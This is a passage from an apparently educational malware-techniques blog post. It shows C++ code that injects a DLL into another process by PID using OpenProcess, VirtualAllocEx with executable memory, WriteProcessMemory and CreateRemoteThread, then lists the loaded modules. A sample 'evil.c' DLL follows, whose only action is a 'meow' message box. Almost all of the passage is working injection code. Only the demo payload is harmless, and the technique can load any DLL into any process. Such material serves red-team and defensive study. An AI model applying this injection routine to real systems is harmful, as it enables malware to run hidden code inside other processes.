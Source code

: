 ```cpp

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  // enumerate modules
  printf("\nenumerate modules... \n");
  EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);

  CloseHandle(ph);
  return 0;
}
```

For simplicity, as usually, my "evil" DLL is just `meow` messagebox (`evil.c`):    

```cpp
/*
evil.c
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

